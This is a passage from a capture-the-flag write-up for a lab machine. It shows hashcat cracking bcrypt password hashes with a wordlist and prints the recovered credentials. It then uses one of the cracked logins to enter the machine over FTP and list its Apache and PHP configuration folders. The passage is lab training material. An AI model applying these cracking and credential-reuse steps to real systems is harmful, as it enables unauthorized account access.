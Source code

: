 So there is using `bcrypt` hash, let's crack it out.

```bash
└─$ hashcat -h | grep -i bcrypt
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
```

```bash
└─$ hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt -w 3 -O --username

└─$ hashcat -m 3200 hashes.txt --show --username
eric:$2y$10$S9EOSDqF1RzNUvyVj7OtJ.mskgP1spN3g2dneU.D.ABQLhSV2Qvxm:america
yuri:$2b$12$HkRKUdjjOdf2WuTXovkHIOXwVDfSrgCqqHPpE37uWejRqUWqwEL2.:mustang
```

Got `eric:america` and `yuri:mustang`. Normal there will be a port `22` and we can ssh and easily grab the `user.txt` flag. <br>
But this machine just have a port `21` for ftp so we gonna connect and use these two credentials.

### FTP
```bash
└─$ ftp 10.129.252.34
Connected to 10.129.252.34.
220 (vsFTPd 3.0.5)
Name (10.129.252.34:kali): yuri
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||14069|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 22 08:42 apache2_conf
drwxr-xr-x    3 0        0            4096 Jul 22 08:42 php8.1_conf
226 Directory send OK.
```

After trying, just only `yuri:mustang` can login to ftp. Maybe `eric` is for other part that could be internal and escalate to root. <br>
Recon and found out there is two folder `apache2_conf` and `php8.1_conf`.

```bash
ftp> cd apache2_conf
250 Directory successfully changed.
ftp> dir
229 Entering Extended Passive Mode (|||64195|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            1332 Dec 08  2024 000-default.conf
-rw-r--r--    1 0        0            7224 Dec 08  2024 apache2.conf
-rw-r--r--    1 0        0             222 Dec 13  2024 file.conf
-rw-r--r--    1 0        0             320 Dec 08  2024 ports.conf
226 Directory send OK.
```

